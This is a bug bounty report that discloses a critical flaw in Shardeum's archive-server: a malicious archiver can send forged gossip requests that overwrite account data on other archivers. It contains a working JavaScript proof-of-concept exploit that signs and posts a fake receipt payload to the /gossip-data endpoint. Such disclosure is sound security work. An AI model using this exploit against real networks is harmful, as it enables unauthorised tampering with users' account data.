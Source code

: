 
# Malicious archiver can overwtite account data on any active archiver.

Submitted on Wed Aug 14 2024 05:58:21 GMT-0400 (Atlantic Standard Time) by @periniondon630 for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #34508

Report type: Websites and Applications

Report severity: Critical

Target: https://github.com/shardeum/archive-server/tree/dev

Impacts:
- Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description
## Brief/Intro
A malicious archiver can connect to the network, become a valid active archiver, and overwrite any user account data across all active archivers, including global accounts.

## Vulnerability Details
It is possible to create a malicious archiver based on the archiver-server repository and connect it to the network. There are no restrictions on who can create and connect an archiver to the network. When a malicious archiver is connected, it can initiate a gossip request with a fake receipt ID to the victim archiver. Exploit code:

```javascript
import axios from 'axios';
import * as core from '@shardus/crypto-utils'
import { Utils as StringUtils } from '@shardus/types'

const TARGET_URL='http://127.0.0.1:4000'
const PRIVATE_KEY='3ea2ee94d1de9ef0e59a08af12aad53375cab0857f73fe243184c6f85edefb39e8a5c26b9e2c3c31eb7c7d73eaed9484374c16d983ce95f3ab18a62521964a94'
const PUBLIC_KEY='e8a5c26b9e2c3c31eb7c7d73eaed9484374c16d983ce95f3ab18a62521964a94'

export function sign(obj) {
  const objCopy = StringUtils.safeJsonParse(core.stringify(obj))
  core.signObj(objCopy, PRIVATE_KEY, PUBLIC_KEY)
  return objCopy
}

async function main(){
        console.log('exploiting archiver-server')
        const txid = process.argv[2]
        core.init('69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc')
        let payload = {
                'dataType': 'RECEIPT',
                'data': [{'txId': txid, 'timestamp': 1}],
        }
        payload = sign(payload)
        const r = await axios.post(TARGET_URL + '/gossip-data', payload)
        console.log('success', r.data)
}

main()
```
